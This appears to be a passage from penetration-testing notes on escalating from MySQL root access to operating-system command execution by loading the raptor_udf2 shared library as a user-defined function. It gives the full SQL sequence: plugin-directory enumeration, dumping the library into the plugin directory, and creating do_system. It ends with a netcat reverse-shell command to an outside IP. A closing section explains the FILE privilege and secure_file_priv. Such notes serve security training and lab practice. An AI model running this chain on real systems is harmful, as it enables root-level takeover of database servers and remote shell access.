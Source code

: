 Accessing the MySQL database with `root` credentials allows the discovery of the plugin directory where MySQL stores UDF libraries and confirmation that the `secure_file_priv` setting was disabled, permitting file operations necessary for loading the malicious library.&#x20;

```sql
# Enumerate the plugin directory
show variables like '%plugin%';
# Check the value of the secure_file_priv setting (empty/NULL means that is disabled)
show variables like '%secure_file_priv%';
```

The compiled shared library was loaded into the database by reading its binary content into a table and dumping it into the plugin directory. Subsequently, a new SQL function was created to link to this shared library.

{% code overflow="wrap" %}
```sql
# Use the mysql database
use mysql;

# Create a table to hold the exploit code
create table foo(line blob);

# Import the exploit by inserting its contents into the table
insert into foo values(load_file('/tmp/raptor_udf2.so'));

# Dump the so's content onto the plugins directory
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

# Create a function that invokes the exploit
create function do_system returns integer soname 'raptor_udf2.so';

# Confirm the presence of the do_system function
select * from mysql.func;

# Test the function
select do_system('id > /var/www/output; chown www-data www-data  /var/www/output');

# Get a reverse root shell
select do_system('nc 192.168.49.136 8080 -e /bin/bash');
```
{% endcode %}

### Read & Write Files

{% hint style="warning" %}
The `FILE` privilege is needed to both `read` and `write` files.
{% endhint %}

In MySQL, the ability to read from or write to files requires the `FILE` privilege, and is further controlled by the global system variable `secure_file_priv`. This variable restricts file operations to a specific directory:

* If set to a directory path, operations like `LOAD_FILE` and `SELECT ... INTO OUTFILE` are limited to that path.
* If set to `NULL`, these operations are completely disabled.
* If empty, there are no restrictions—this is insecure but allows unrestricted file I/O.
